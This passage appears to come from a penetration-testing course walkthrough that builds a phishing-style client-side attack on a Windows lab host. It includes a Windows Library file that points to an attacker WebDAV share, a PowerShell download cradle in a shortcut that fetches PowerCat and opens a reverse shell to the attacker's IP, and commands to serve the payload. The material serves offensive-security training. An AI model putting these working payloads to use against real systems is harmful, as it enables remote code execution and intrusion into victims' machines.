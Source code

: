 Now, let's copy the Windows Library code we previously used in the _Client-Side Attacks_ Module, paste it into Visual Studio Code, and check that the IP address points to our Kali machine.

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

> Listing 34 - Windows Library code for connecting to our WebDAV Share

Let's save the file and transfer it to **/home/kali/beyond** on our Kali machine.

Next, we'll create the shortcut file on WINPREP. For this, we'll right-click on the Desktop and select _New_ > _Shortcut_. A victim double-clicking the shortcut file will download PowerCat and create a reverse shell. We can enter the following command to achieve this:

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

> Listing 35 - PowerShell Download Cradle and PowerCat Reverse Shell Execution for shortcut file

Once we enter the command and **install** as shortcut file name, we can transfer the resulting shortcut file to our Kali machine into the WebDAV directory.

Our next step is to serve PowerCat via a Python3 web server. Let's copy **powercat.ps1** to **/home/kali/beyond** and serve it on port 8000 as we have specified in the shortcut's PowerShell command.

```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

> Listing 36 - Serving powercat.ps1 on port 8000 via Python3 web server

Once the Python3 web server is running, we can start a Netcat listener on port 4444 in a new terminal tab to catch the incoming reverse shell from PowerCat.
